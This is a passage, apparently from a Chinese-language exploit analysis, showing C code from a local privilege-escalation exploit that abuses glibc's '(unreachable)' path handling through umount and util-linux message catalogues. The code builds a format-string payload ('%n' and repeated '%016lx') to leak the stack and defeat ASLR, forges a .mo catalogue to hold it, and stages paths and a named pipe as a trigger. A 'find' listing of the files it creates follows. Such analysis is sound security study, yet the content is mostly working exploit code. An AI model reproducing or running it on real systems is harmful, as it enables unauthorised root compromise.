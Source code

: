 ```c
  char *stackDumpStr=(char*)malloc(0x80+6*(STACK_LONG_DUMP_BYTES/8));
  char *stackDumpStrEnd=stackDumpStr;
  stackDumpStrEnd+=sprintf(stackDumpStrEnd, "AA%%%d$lnAAAAAA",
      ((int*)osReleaseExploitData[3])[ED_STACK_OFFSET_CTX]);
  for(int dumpCount=(STACK_LONG_DUMP_BYTES/8); dumpCount; dumpCount--) {	// 通过格式化字符串 dump 栈数据，以对抗 ASLR
    memcpy(stackDumpStrEnd, "%016lx", 6);
    stackDumpStrEnd+=6;
  }

  [...]
  result=writeMessageCatalogue(pathBuffer,
      (char*[]){
          "%s: mountpoint not found",
          "%s: not mounted",
          "%s: target is busy\n        (In some cases useful info about processes that\n         use the device is found by lsof(8) or fuser(1).)"
      },
      (char*[]){"1234", stackDumpStr, "5678"},
      3);	// 伪造一个 catalogue，将上面的 stackDumpStr 格式化字符串写进去

  [...]
  result=snprintf(pathBuffer, sizeof(pathBuffer),
      "%s/(unreachable)/tmp/%s/X.X/LC_MESSAGES/util-linux.mo",
      namespaceMountBaseDir, osReleaseExploitData[2]);
  secondPhaseTriggerPipePathname=strdup(pathBuffer);	// 创建文件

  [...]
  result=snprintf(pathBuffer, sizeof(pathBuffer),
      "%s/(unreachable)/tmp/%s/X.x/LC_MESSAGES/util-linux.mo",
      namespaceMountBaseDir, osReleaseExploitData[2]);
  secondPhaseCataloguePathname=strdup(pathBuffer);		// 创建文件

  return(namespacedProcessPid);		// 返回子进程 ID
}
```

所创建的各种类型文件如下：

```text
$ find /proc/10173/cwd/ -type d
/proc/10173/cwd/
/proc/10173/cwd/(unreachable)
/proc/10173/cwd/(unreachable)/tmp
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/X.x
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/X.x/LC_MESSAGES
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/X.X
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/X.X/LC_MESSAGES
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/C.UTF-8
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/C.UTF-8/LC_MESSAGES
/proc/10173/cwd/(unreachable)/x
$ find /proc/10173/cwd/ -type f
/proc/10173/cwd/DATEMSK
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/C.UTF-8/LC_MESSAGES/util-linux.mo
/proc/10173/cwd/ready
$ find /proc/10173/cwd/ -type l
/proc/10173/cwd/(unreachable)/tmp/down
$ find /proc/10173/cwd/ -type p
/proc/10173/cwd/(unreachable)/tmp/_nl_load_locale_from_archive/X.X/LC_MESSAGES/util-linux.mo
```
